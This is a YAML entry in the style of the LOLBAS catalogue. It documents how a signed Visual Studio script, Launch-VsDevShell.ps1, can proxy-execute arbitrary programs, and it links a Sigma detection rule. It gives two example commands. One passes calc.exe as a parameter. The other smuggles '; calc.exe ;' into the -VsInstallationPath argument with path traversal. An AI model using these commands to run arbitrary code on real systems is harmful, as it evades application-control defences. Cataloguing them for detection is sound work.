 ```yaml
---
Name: Launch-VsDevShell.ps1
Description: Locates and imports a Developer PowerShell module and calls the Enter-VsDevShell cmdlet
Author: 'Nasreddine Bencherchali'
Created: 2022-06-13
Commands:
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsWherePath "C:\windows\system32\calc.exe"'
    Description: Execute binaries from the context of the signed script using the "VsWherePath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsInstallationPath "/../../../../../; calc.exe ;"'
    Description: Execute binaries and commands from the context of the signed script using the "VsInstallationPath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\Tools\Launch-VsDevShell.ps1
  - Path: C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\Launch-VsDevShell.ps1
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_launch_vsdevshell.yml
Resources:
  - Link: https://twitter.com/nas_bench/status/1535981653239255040
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

